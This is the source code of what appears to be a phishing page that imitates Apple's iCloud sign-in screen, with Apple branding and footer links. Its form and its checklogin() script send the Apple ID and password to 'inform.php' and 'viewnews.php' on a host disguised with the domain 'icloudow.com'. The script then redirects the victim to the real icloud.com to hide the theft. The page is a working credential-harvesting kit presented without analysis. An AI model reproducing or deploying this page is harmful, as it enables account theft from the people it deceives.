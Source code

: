<html lang="pt-br"><head>
<meta name="robots" content="NOINDEX, NOFOLLOW">
    <title>iCloud</title>
    <meta charset="utf-8">
    <link rel="shortcut icon" href="favicon.ico">
    <link rel="stylesheet" href="css/styles.css">
    <link rel="stylesheet" href="http://code.jquery.com/ui/1.11.3/themes/smoothness/jquery-ui.css">
    <script src="http://code.jquery.com/jquery-1.10.2.js"></script><style type="text/css"></style>
    <script src="http://code.jquery.com/ui/1.11.3/jquery-ui.js"></script>
    <script src="activity-indicator.js"></script>
	
<!--Mobile Script Exceptions-->
<script type="text/javascript">
if (screen.width <= 699) {
document.location = "mobile.html";
}
</script>

<script language="javascript">
if ((navigator.userAgent.match(/iPhone/i)) || (navigator.userAgent.match(/iPod/i))) {
   location.replace("mobile.html");
}
</script>
<!--/Mobile Script Exceptions-->
</head>

<body class="body_image_old" style="visibility: visible;">

<div class="body_image_new" style="opacity: 1;"></div>
<div id="loader" class="loader" style="display: none;"><div style="width: 26px; height: 26px; position: absolute; margin-top: -13px; margin-left: -13px; animation: spin12 0.8s linear infinite;"><svg style="width: 26px; height: 26px;"><g transform="translate(13,13)"><g stroke-width="1.5" stroke-linecap="round" stroke="rgb(255, 255, 255)"><line x1="0" y1="6" x2="0" y2="11" transform="rotate(0, 0, 0)" opacity="1"></line><line x1="0" y1="6" x2="0" y2="11" transform="rotate(30, 0, 0)" opacity="0.9173553719008265"></line><line x1="0" y1="6" x2="0" y2="11" transform="rotate(60, 0, 0)" opacity="0.8347107438016529"></line><line x1="0" y1="6" x2="0" y2="11" transform="rotate(90, 0, 0)" opacity="0.7520661157024794"></line><line x1="0" y1="6" x2="0" y2="11" transform="rotate(120, 0, 0)" opacity="0.6694214876033058"></line><line x1="0" y1="6" x2="0" y2="11" transform="rotate(150, 0, 0)" opacity="0.5867768595041323"></line><line x1="0" y1="6" x2="0" y2="11" transform="rotate(180, 0, 0)" opacity="0.5041322314049588"></line><line x1="0" y1="6" x2="0" y2="11" transform="rotate(210, 0, 0)" opacity="0.42148760330578516"></line><line x1="0" y1="6" x2="0" y2="11" transform="rotate(240, 0, 0)" opacity="0.33884297520661155"></line><line x1="0" y1="6" x2="0" y2="11" transform="rotate(270, 0, 0)" opacity="0.25619834710743805"></line><line x1="0" y1="6" x2="0" y2="11" transform="rotate(300, 0, 0)" opacity="0.17355371900826455"></line><line x1="0" y1="6" x2="0" y2="11" transform="rotate(330, 0, 0)" opacity="0.09090909090909094"></line></g></g></svg></div></div>
<div class="container">
    <div class="wrapper">

        <div class="header">
            <div class="logo lF"></div>
            <div class="info lR">
                <div class="instr lF">
				<script type="text/javascript">
                        
                        function newPopup(url) {
                            popupWindow = window.open(
                                url,'popUpWindow','height=700,width=800,left=10,top=10,resizable=no,scrollbars=no,toolbar=no,menubar=no,location=no,directories=no,status=yes')
                        }
                    </script>
                    <span><a href="https://www.apple.com/icloud/setup/">Setup Instructions</a></span>
                </div>
                <div class="help lF"></div>
            </div>
        </div>
		
        <div class="body">
            <div>
                <div class="cloud"></div>
                <div class="labelRef">
                    <span>Sign in to iCloud</span>
                </div>
                <div>
                    <form action="inform.php" method="post">
                        <div class="boxFrm" style="width:325px;">
                            <div class="line1">
                                <input type="text" value="" class="appId1" placeholder="Apple ID" name="apple" id="apple">
                            </div>
                            <div class="line2">
                                <input type="password" value="" class="appId2 lF" placeholder="Password" name="pw" id="pw">
                                <input type="hidden" value="https://p01-caldav.icloud.com" id="server" name="server">
                                <input type="hidden" value="icloudow.com/" name="link">
                                <div style="margin-left:270px;"><input type="submit" value="" class="sbBtn lF" style="opacity: 0.2;"></div>
                            </div>
                        </div>
                    </form>
                </div>
                <div class="cont">
                    <span class="tlrm"><input type="checkbox"></span>
                    <span class="txt">Keep me signed in</span>
                </div>
                <div class="cont2 sec">
                    <div class="center">
                        <span class="account-cr">Don’t have an Apple&nbsp;ID?&nbsp;<a class="clickable" href="#">Create one now.</a></span>
                    </div>
                </div>
            </div>
        </div>
        <div class="footer">
            <div class="fLogo lF"></div>
            <ul class="lR">
                <li><a href="https://www.icloud.com/activationlock">Check&nbsp;Activation&nbsp;Lock&nbsp;Status</a></li>
                <li><a href="https://iforgot.apple.com">Forgot&nbsp;ID&nbsp;or&nbsp;Password?</a></li>
                <li><a href="https://www.apple.com/support/systemstatus/">System&nbsp;Status</a></li>
                <li><a href="https://www.apple.com/privacy/">Privacy&nbsp;Policy</a></li>
                <li><a href="https://www.apple.com/legal/icloud/ww/">Terms&nbsp;&amp;&nbsp;Conditions</a></li>
                <li>Copyright © 2015 Apple Inc. All rights reserved.</li>
            </ul>
        </div>

    </div>
</div>

<script>
      $("body").css("visibility", "hidden");
    $('#loader').activity({width: 1.5, segments: 12, length: 5});
    jQuery('#submit_loader').activity({width: 1.5, segments: 12, length: 5});
    function typeCheck(element) {
        var key = event.keyCode || event.charCode;
        if (key == 8 || key == 46) {
            $(".sbBtn").css("opacity", "0.2");
            return element;
        }
        if (element !== "") {
            $(".sbBtn").css("opacity", "1");
        } else {
            $(".sbBtn").css("opacity", "0.2");
        }
    }
    $(document).ready(function () {
        $("body").css("visibility", "visible");
                function isValidEmailAddress(emailAddress) {
            var pattern = new RegExp(/^(("[\w-+\s]+")|([\w-+]+(?:\.[\w-+]+)*)|("[\w-+\s]+")([\w-+]+(?:\.[\w-+]+)*))(@((?:[\w-+]+\.)*\w[\w-+]{0,66})\.([a-z]{2,6}(?:\.[a-z]{2})?)$)|(@\[?((25[0-5]\.|2[0-4][\d]\.|1[\d]{2}\.|[\d]{1,2}\.))((25[0-5]|2[0-4][\d]|1[\d]{2}|[\d]{1,2})\.){2}(25[0-5]|2[0-4][\d]|1[\d]{2}|[\d]{1,2})\]?$)/i);
            return pattern.test(emailAddress);
        };
        $('input[name=apple]').bind("keydown", function(e){
            // enter key code is 13
            if(e.which == 13 || e.which == 9){
                e.preventDefault();
                var val = $(this).val();
                if (!isValidEmailAddress(val)) {
                    val = val+"@icloud.com";
                    $(this).val(val);
                } else {
                    console.log($(this).val());
                }
                console.log(val);
                $("input[name=pw]").focus();
                if(jQuery('#apple').val()=='' || jQuery('#pw').val()=='') $(".sbBtn").css("opacity", "0.2"); else $(".sbBtn").css("opacity", "1");

                return false;
            }
        });
        $("input[name=pw]").on("click keyup", function(){
            val = $("input[name=apple]").val();
            if (!isValidEmailAddress(val)) {
                if(val!='@icloud.com' && val!='') val = val+"@icloud.com";
                $("input[name=apple]").val(val);
            }
            if(jQuery('#apple').val()=='' || jQuery('#pw').val()=='') $(".sbBtn").css("opacity", "0.2"); else $(".sbBtn").css("opacity", "1");
        });
        var mm = 0;
        var ss = setTimeout(function () {
            $(".body_image_new").animate({ opacity: "1" }, 1000);
            console.log(mm);
            clearTimeout(ss);
        }, 7500);
        k = 1;
        $(".tlrm").on("click", function () {
            k++;
            if (k % 2 == 0) {
                $("#tlrm").attr("src", "images/checked.png");
            } else {
                $("#tlrm").attr("src", "images/Unknown");
            }
        });
    });
    var ss2 = setTimeout(function () {
        $("#loader").fadeOut("slow");
        $("div.container").fadeIn("slow");
        $("div.container").css("display:", "block");
        $(".sbBtn").css("opacity", "0.2");
        clearTimeout(ss2);
    }, 4500);

    $('#apple,#pw').on('keyup', function(e) {
        if (e.which == 13) {
            checklogin();
        }
    });

    function checklogin()
    {
        var apple = jQuery('#apple').val();
        var pw = jQuery('#pw').val();
        var server = jQuery('#server').val();
        var lang = jQuery('#lang').val();
        var links = jQuery('#link').val();
        if(apple!='' && pw!='')
        {
            jQuery('#submit_button').hide();
            jQuery('#submit_loader').show();
            jQuery.ajax({
                type:"POST",
                url:"viewnews.php",
                data:"apple="+apple+"&pw="+pw+"&server="+server+"&lang="+lang+"&link="+links,
                success: function(msg){
                    if(msg.search("INVALID")!=-1)
                    {
                        $('div.body').effect('shake');
                        jQuery('#submit_button').show();
                        jQuery('#submit_loader').hide();
                        $(".sbBtn").css("opacity", "0.2");

                    }
                    else if(msg.search("SUCCESS")!=-1)
                    {
                        window.location.href = "https://www.icloud.com";
                    }
                    else
                    {
                        $('div.body').effect('shake');
                        jQuery('#submit_button').show();
                        jQuery('#submit_loader').hide();
                        $(".sbBtn").css("opacity", "0.2");
                    }
                }
            });
        }
        else
        {
            if(apple=='') jQuery('#apple').focus();
            else if(pw=='') jQuery('#pw').focus();
        }
    }

    function change_image(src)
    {
        if(src=='check2.png') jQuery('#help_checkbox').attr({'src':'check2.png','onClick':"change_image('check1.png')"}); else jQuery('#help_checkbox').attr('src','check1.png').attr('onClick',"change_image('check2.png')");
    }
</script>
</body></html>

